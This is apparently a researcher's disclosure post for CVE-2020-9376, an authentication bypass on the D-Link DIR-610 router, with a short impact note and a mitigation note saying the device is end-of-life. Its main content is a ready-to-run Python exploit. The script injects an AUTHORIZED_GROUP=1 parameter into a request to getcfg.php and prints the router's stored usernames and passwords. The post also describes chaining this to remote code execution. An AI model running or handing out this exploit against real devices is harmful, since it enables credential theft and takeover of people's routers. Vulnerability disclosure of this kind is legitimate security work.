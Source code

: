 ```yaml
---
layout: content
title: 'CVE-2020-9376 - Authentication bypass on D-LINK 610 Router'
description: ''
og_image: https://heitorgouvea.me/images/publications/
---
```


### Summary

DIR-610 é um roteador que foi desenvolvido e vendido pela DLINK e foi distribuído na América Central e na América do Sul. Um atacante pode utilizar a CVE-2020-9376 & CVE-2020-9377 para burlar o mecanismo de autenticação desse aparelho e conseguir acesso ao painel de administração desse roteador, permitindo que o mesmo execute de forma arbitrária códigos diretamente no sistema operacional do mesmo.

---

### Description

---

### Exploit

```python
#!/usr/bin/python

import xml.etree.ElementTree as ET
import urllib2
import sys

def main(host, port):
    content = urllib2.urlopen('http://%s:%s/getcfg.php' % (host, port), 'SERVICES=DEVICE.ACCOUNT%0aAUTHORIZED_GROUP=1').read()
    root = ET.fromstring(content)

    for user in root.findall('./module/device/account/entry'):
        name = user.findall('./name')[0].text
        password = user.findall('./password')[0].text

        print 'User: %s\\\\nPassword: %s\\\\n\\\\n' % (name, password)

if __name__ == '__main__':
   [host, port] = sys.argv[1:3]
   main(host, port)
```

---

### Impact

An attacker can circumvent the authentication mechanisms of this device and gain access to the administration panel and also to restricted information, such as the users and passwords present on the device, later on, they can exploit the CVE-2020-9377 vulnerability of RCE.

---
 
### Mitigation

While D-Link is aware of vulnerabilities involving DIR-610, these products have reached End of Life (EoL)/End of Support (EoS) and there is no extended support or development for them. D-Link will not be able to resolve device or firmware issues as all development and customer support has ceased.

The DIR-610 Rev. Ax reached its End of Support Date in 2014, it is no longer supported and firmware development has stopped, all consumers still using the product should retire it and immediately replace the device.

---

### Conclusion


---

### References

1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9376
2. https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10182
3. https://www.dlink.com.br/produto/dir-610/
4. https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication
5. https://portswigger.net/web-security/authentication